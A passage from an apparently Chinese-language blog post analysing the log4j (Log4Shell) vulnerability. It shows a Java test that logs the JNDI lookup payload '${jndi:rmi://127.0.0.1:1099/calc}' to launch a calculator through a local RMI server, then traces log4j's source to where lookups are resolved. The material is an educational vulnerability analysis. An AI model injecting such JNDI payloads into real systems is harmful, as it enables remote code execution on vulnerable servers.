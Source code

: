 之后启动上面的 Server 类，再执行下面的代码：

```java
@Test
void log4jEvil() {
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.info("${jndi:rmi://127.0.0.1:1099/calc}");
}
```

发现测试用例的控制台输出了 `open a Calculator!` 并启动了计算器。

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214172950.png?x-oss-process=style/yano)

# log4j 漏洞源码分析

只看 `logger.info("${jndi:rmi://127.0.0.1:1099/calc}");` 这段代码，首先会调用到 org.apache.logging.log4j.core.config.LoggerConfig#processLogEvent：

```java
private void processLogEvent(final LogEvent event, final LoggerConfigPredicate predicate) {
    event.setIncludeLocation(isIncludeLocation());
    if (predicate.allow(this)) {
        callAppenders(event);
    }
    logParent(event, predicate);
}
```

其中 LogEvent 结构如下：

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214174231.png)

encode 对应的事件，将 ${param} 里的 param 解析出来，org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender#tryAppend

```java
private void tryAppend(final LogEvent event) {
    if (Constants.ENABLE_DIRECT_ENCODERS) {
        directEncodeEvent(event);
    } else {
        writeByteArrayToManager(event);
    }
}

protected void directEncodeEvent(final LogEvent event) {
    getLayout().encode(event, manager);
    if (this.immediateFlush || event.isEndOfBatch()) {
        manager.flush();
    }
}
```

调用 org.apache.logging.log4j.core.lookup.StrSubstitutor#resolveVariable，将对应参数解析出结果。
